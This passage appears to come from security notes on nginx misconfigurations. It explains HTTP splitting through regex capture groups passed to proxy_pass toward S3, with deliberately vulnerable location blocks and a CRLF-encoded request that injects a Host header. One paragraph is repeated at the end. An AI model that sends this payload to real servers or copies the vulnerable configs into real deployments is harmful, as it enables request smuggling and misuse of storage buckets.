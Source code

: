 Well to that I say:
> **Just because an application has `merge_slashes off` it doesn't mean its vulnerable!!!**
>  -- _databus_

## Server Side Request Forgery
[[ssrf] Server Side Request Forgery](https://github.com/yandex/gixy/blob/master/docs/en/plugins/ssrf.md)

## HTTP Splitting
[[http_splitting] HTTP Splitting](https://github.com/yandex/gixy/blob/master/docs/en/plugins/httpsplitting.md)

### Exploiting HTTP Splitting with cloud storage
One configuration you could do (hint: **don’t**) might look like this:

```nginx
location ~ /docs/(\[^/\]\*/\[^/\]\*)? {
    proxy_pass https://bucket.s3.amazonaws.com/docs-website/$1.html;
}
```
**or**
```nginx
location ~ /images([0-9]+)/([^\s]+) {
    proxy_pass https://s3.amazonaws.com/companyname-images$1/$2;
}
```

In this case, any URL under `yourdomain.com/docs/` would be served from S3. The regular expression states that `yourdomain.com/docs/help/contact-us` would fetch the S3-object located at:

```
https://bucket.s3.amazonaws.com/docs-website/help/contact-us.html
```

Now, the problem with this regular expression is that it also allows newlines per default. In this case, the `[^/]*` part actually also includes encoded newlines. And when the regular expression group is passed into proxy_pass, the group will be url-decoded. This means that the following request:

```
GET /docs/%20HTTP/1.1%0d%0aHost:non-existing-bucket1%0d%0a%0d%0a HTTP/1.1
Host: yourdomain.com
```

Would actually make the following request from the web server to S3:

```
GET /docs-website/ HTTP/1.1
Host:non-existing-bucket1

.html HTTP/1.0
Host: bucket.s3.amazonaws.com
```

In this case, any URL under yourdomain.com/docs/ would be served from S3. The
regular expression states that yourdomain.com/docs/help/contact-us would fetch
the S3-object located at: `https://bucket.s3.amazonaws.com/docs-website/help/contact-us.html`
